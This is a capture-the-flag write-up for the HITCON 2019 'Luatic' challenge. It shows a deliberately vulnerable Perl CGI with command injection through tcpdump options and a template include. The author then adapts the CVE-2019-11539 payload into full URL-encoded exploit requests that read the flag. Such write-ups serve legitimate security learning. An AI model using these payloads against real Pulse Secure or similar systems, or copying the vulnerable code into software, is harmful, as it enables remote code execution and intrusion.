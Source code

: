 HITCON2019-luatic(CallMeCro)
---
Vulnerable Point of Your Network :)

Foreword
---
Congratulations to myself, because I solved an international CTF questions for the first time(Although
in the end it was master lanmao who reminded me of the proper way of writing payload).

Examination Site
---
* Perl
* Command Injection
* CVE-2019-11539

Analysis
---
As you view the source code through F12, you will find there is a hint
```bash
<!-- Hint for you :)
     <a href='diag.cgi'>diag.cgi</a>
     <a href='DSSafe.pm'>DSSafe.pm</a>  -->
```

Then we open the diag.cgi to get its source code
```bash
#!/usr/bin/perl
use lib '/var/www/html/';
use strict;

use CGI ();
use DSSafe;


sub tcpdump_options_syntax_check {
    my $options = shift;
    return $options if system("timeout -s 9 2 /usr/bin/tcpdump -d $options >/dev/null 2>&1") == 0;

    return undef;
}
 
print "Content-type: text/html\n\n";
 
my $options = CGI::param("options");
my $output = tcpdump_options_syntax_check($options);
 

# backdoor :)
my $tpl = CGI::param("tpl");
if (length $tpl > 0 && index($tpl, "..") == -1) {
    $tpl = "./tmp/" . $tpl . ".thtml";
    require($tpl);
}
```
It is easy to see that there is a command injection.Now, we have to figure out what to do with it.

Exploit
---
It's easy to think about going to orange's blog since he is the author of it.
https://blog.orange.tw/2019/09/attacking-ssl-vpn-part-3-golden-pulse-secure-rce-chain.html

Here we found CVE-2019-11539 and its payload:
```bash
-r$x="ls /",system$x# 2>/data/runtime/tmp/tt/setcookie.thtml.ttc < 
```

We'll modify it a little bit and try to commit

```bash
/cgi-bin/diag.cgi?option=-r%24x%3d%22ls+-lt+%2f%22%2csystem%24x%23+2%3e.%2ftmp%2fcallmecro.thtml+%3c&tpl=callmecro
```
After we commit it,we will get this
```bash
total  96
-rwsr-sr-x  1 root root   8520  Oct 11  23:57  $READ_FLAG$
-r--------  1 root root     49  Oct 11  23:59  FLAG
.....
```

And then I stopped.The "cat" command could not be used, and the execution of $READ_FLAG$ failed.
Finally, master lanmao told me about perl's syntax problems.The final payload:
```bash
/cgi-bin/diag.cgi?option=-r%24x%3d%2f%24%2f%2fREAD_FLAG%2f%24system%24x%23+2%3e.%2ftmp%2fcallmecro.thtml+%3c&tpl=callmecro

Response:
HTTP/1.1 200 OK
Date: Sun, 12 Oct 2019 07:04:37 GMT
Server: Apache/2.4.29 (Ubuntu)
Content-Length: 50
Connection: close
Content-Type: text/html

hitcon{Now I'm sure u saw my Bl4ck H4t p4p3r :P}
```

*laomao tql.*
